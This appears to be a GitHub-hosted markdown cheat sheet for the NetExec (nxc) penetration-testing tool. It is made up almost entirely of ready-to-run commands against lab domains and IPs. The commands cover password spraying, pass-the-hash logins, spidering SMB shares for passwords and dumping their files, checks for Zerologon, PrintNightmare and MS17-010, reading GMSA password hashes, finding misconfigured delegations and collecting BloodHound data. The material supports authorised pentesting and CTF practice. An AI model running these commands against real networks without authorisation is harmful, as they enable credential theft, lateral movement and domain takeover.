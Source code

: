 ## Wiki:
For more commands and all capabilities.
```text
https://www.netexec.wiki/
```
## Supported Protocols:
All can be used for password spraying etc.
```bash
mssql               
smb                
ftp                 
ldap               
nfs                 
rdp                
ssh                
vnc                
winrm             
wmi                
```
## Supported Auth Methods:
```bash
#Null Session (SMB Anonymous)
nxc smb 172.16.139.3 -u '' -p ''

#Default User/Pass:
nxc smb 172.16.139.3 -u john -p 'lol123!'

#NTLM:
#NT:
nxc smb dc01.ad.trilocor.local -u 'john' -H 3135834fa2e5dcdc4367de1c9d0784a3

#Full NTLM:
nxc smb dc01.ad.trilocor.local -u 'john' -H 3135834fa2e5dcdc4367de1c9d0784a3:3135834fa2e5dcdc4367de1c9d0784a3

#Kerberos Ticket, requires a valid ticket to be present in klist:
nxc smb dc.rustykey.htb -k --use-kcache
```
---
## Command Cheat Sheet:

### Password Spraying:
```bash
#SMB example with userlist:
nxc smb 172.16.139.3 -u knownusernames.txt -p Welcome1
```
---
### Verifying validity of found credentials with SMB
```bash
#Shows if credentials are valid for SMB auth + Displays the hostname of the target 
nxc smb 172.16.139.3 -u john -p 'lol123!'

#Can also be ran across a subnet for password re-use possibilites.
nxc smb 172.16.139.0/24 -u john -p 'lol123!'
```
---
### SMB - Domain Enumeration:
```bash
#list shares + the user's access rights to said shares (R/W):
nxc smb dc01.mirage.htb -u john -p 'lol123!' --shares

#enumerate domain users:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --users

#enumerate domain groups:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --groups

#get domain password policy:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --pass-pol

```
---
### SMB - Spidering SMB Shares:
```bash
#Standard Spider on a selected share using pattern for keyword to search for:
nxc smb dc01.ad.trilocor.local -u jwegman -p 'Roasty07' --spider 'Department Shares' --content --pattern "passw"

#Search C Drive for pattern:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --spider C\$ --pattern txt

#Spider Plus Share Enumeration:
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M spider_plus

#Dump all files after spidering:
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M spider_plus -o DOWNLOAD_FLAG=True
```
---
### SMB - Scanning for Common Vulns:
```bash
#Zerologon:
nxc smb dc01.mirage.htb -u '' -p '' -M zerologon

#noPAC:
nxc smb dc01.mirage.htb -u '' -p '' -M nopac

#PrintNightmare:
nxc smb dc01.mirage.htb -u '' -p '' -M printnightmare

#SMBGhost:
nxc smb dc01.mirage.htb -u '' -p '' -M smbghost

#MS17-010: 
nxc smb dc01.mirage.htb -u '' -p '' -M ms17-010

#NTLM Reflection - CVE-2025-33073 (Requires Creds):
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M ntlm_reflection
```
---
### LDAP - Enumeration:
```bash
#Test creds for LDAP bind:
nxc ldap 10.10.10.0/24 -u john -p 'lol123!'

#Get domain SID:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' --get-sid

#Get User Descriptions for password hunting:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' -M get-desc-users

#Get All Admin users:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' --admin-count

#Get DC IPs and Domain Trusts:
nxc ldap 10.10.14.23 -u john -p 'lol123!' --dc-list

#Extract subnets:
nxc ldap 10.10.14.23 -u john -p 'lol123!' -M get-network

#Find Misconfigured Delegations:
nxc ldap 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! --find-delegation
```
---
### LDAP - DACL and Delegations: 

##### Read GMSA if we have the ACL right:
```bash
#Retrieving password hash with ReadGMSAPassword priv:
nxc ldap ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$' --gmsa
```
#### Find Misconfigured Delegations:
```bash
#Finds all misconfigured delegations in the domain:
nxc ldap 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! --find-delegation

#Finds all users and computers with Unconstrained Delegation flag:
nxc ldap 192.168.0.104 -u harry -p pass --trusted-for-delegation
```
#### Read DACL rights on one or more targets:
```bash
nxc ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=Administrator ACTION=read
```
---
### LDAP - Running BloodHound Collector
```bash
nxc ldap dc01.administrator.htb -d administrator.htb -u Olivia -p ichliebedich --dns-server 10.129.61.1 --bloodhound -c All

#Collect the data from appointed zip location after it runs.
```
---
## MISC:
### NFS Share Enumeration in NXC:
```bash
#list all shares:
nxc nfs 10.129.254.128 --shares 

#List share content:
nxc nfs 10.129.254.128 --share '/MirageReports' --ls '/'
```
---
